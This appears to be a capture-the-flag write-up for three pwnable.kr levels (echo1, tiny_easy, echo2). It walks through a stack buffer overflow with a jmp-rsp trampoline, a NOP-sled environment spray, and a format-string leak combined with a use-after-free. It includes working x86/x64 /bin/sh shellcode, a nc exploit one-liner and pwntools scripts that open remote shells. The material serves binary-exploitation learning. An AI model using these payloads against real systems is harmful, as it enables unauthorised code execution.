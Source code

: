 
 # LEVEL - echo1
 
 in tis level we get an executebel file we run it true ida and we get sit code:
 ```
 int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  int v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 'y'; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```
so if we go to the function echo1:
```
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```
get_input is just f_gets so we see that we can buffer overflow here becuse we can write 128 cherecters into a string of size 32 
so we think a bout changing the ret pointer so we look at the addres of s and the ret pointer and we get that the string s is 
40 bytes away of the ret pointer so we can overflow him so now we checksec the file (checksec --file=echo1) we see that NX is off 
so we can execute code from the stack know we will gwt our attention on the id verbel in the main function we see that 
```
id = v6[0]
```
v6 is a array of int so every slot in the array worth 4 bytes so we put in id 4 chars becuse one char is worth 1 byte becuse the PIE is also off we now that the global verebels dont change adresses so we can write ashellcode to the id and then with the buffer overflow return to id and execuse the id because we have only 4 chars we cant write bin/sh shell code so what we will do is use the sp register we know that
the sp register at the buffer overflow will hold the ret pointer with is the id addres and then after the ret of the function will incress by 8 bytes so what we can do is to put a shell code of jmp RSP in id and we will jump to the shell code.
is get after the firest 8 byets after the bufeer overflow we can in sert a bin/sh shell code and then we will get the flag
the adress of id is 0x6020a0 and the shell code is \x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05
so we will execute:
(python2 -c "print('\xff\xe4\x00\x00\n' +'1\n' + 'a'*40 +'\xa0\x20\x60\x00\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05\n')"; cat) | nc pwnable.kr 9010

eli :)



 # LEVEL - tiny_easy
 when we debug the file we can run it becuse the file is too small so we use start i in gdb and we get the asm of he program 
```
0x8048054    pop    eax
0x8048055    pop    edx
0x8048056    mov    edx, dword ptr [edx]
0x8048058    call   edx
```

we know that in the _start the firest verbels that get saved are argc argv and env that we pass to the program so we get that the call edx will call the argv[0] so we use pwntools python functions 
the functuon process let us run the program with argv and env that we want so we know we can write to the stack with the virubels of argv and we all argv[0] so we will insert as much as we can shell code to the stack and pick some pocebule adress in the stack and try alot of times until we fall on a place with a shell code of bin/sh  to have more chance to fall on the start of the shellcode we use the nop instaraction to make the code skip until the shell code 
this is the code i made:
```
from pwn import *

shellcode = '\x6A\x68\x68\x2F\x2F\x2F\x73\x68\x2F\x62\x69\x6E\x89\xE3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xC9\x51\x6A\x04\x59\x01\xE1\x51\x89\xE1\x31\xD2\x6A\x0B\x58\xCD\x80'

envir = {'a':'1'}
for i in range(1,100):
    envir[str(i)] = '\x90'*12000+shellcode


while(True):

    r = process(argv=['\x11\x11\x88\xff'],executable = '/home/tiny_easy/./tiny_easy',env = envir)
    r.sendline("id")
    try:
        r.recvline()
    except EOFError:
        r.wait()
        continue
    r.interactive()
    break

```

 # LEVEL - echo2
 the code here is the same as echo1 one nut this timr we have the 2 functions
 echo2 - 
```
__int64 echo2()
{
  char format[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(format, 32);
  printf(format);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

and echo3
```
__int64 echo3()
{
  char *s; // [rsp+8h] [rbp-8h]

  (*((void (__fastcall **)(void *))o + 3))(o);
  s = (char *)malloc(0x20uLL);
  get_input(s, 32);
  puts(s);
  free(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```
in this chalenge we can see that if we put 4 in the manue we will free the o verebel and then we can get beck to the menue with pressing n so now we freed the o vereble we can see we can alocate in echo3 the string verebel and he will point to the same place as o pointed to so we can change the functions o points to so to change the adress of the function greetings in the virebel o we need to wirte 24 cherecters and the new addres we want to put there but what is the adress we want to put there the adress of the virubel v6 where we store our name becuse there is inufe place to put bin/sh shellcode there so the last part is to figure out what is the adress of v6 is so with function echo2 we can get a leack of a stack adress with %p so in the 10th %p we gwt a stack adress so we check in gdb what is the distece bettwen the 2 adress and then we know how much to subtruct from the leacked adress when we will exploit the runing prugarm

here is the code in python that i used:
```
from pwn import *

shellcode = b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p = remote('pwnable.kr',9011) #conecting to nc pwnable.ke port 9011

p.recv()
p.sendline(shellcode)
print(p.recv())
print(p.recv())
p.sendline(b"2")
print(p.recv())
p.sendline(b'%10$p')

first_hex = p.recvline().decode()# the leaked adress
print("1- "+first_hex)
an_integer = int(first_hex, 16)
an_integer -= 32 #the distance between the functions is 32
print(p.recvuntil(b'> '))
p.sendline(b"4")
print(p.recv())
p.sendline(b"n") # we free o and return to the menue
print(p.recvuntil(b'> '))
p.sendline(b"3")
print(p.recv())
p.sendline((24*'a').encode(encoding='utf-8')+p64(an_integer))#we change the adress of greetings that was stores in the o vereble
print("the uaf -")
#print((24*'a').encode(encoding='utf-8')+p64(an_integer))
print(p.recvuntil(b'> '))
p.sendline("2")
p.interactive() #get the bin/sh
```


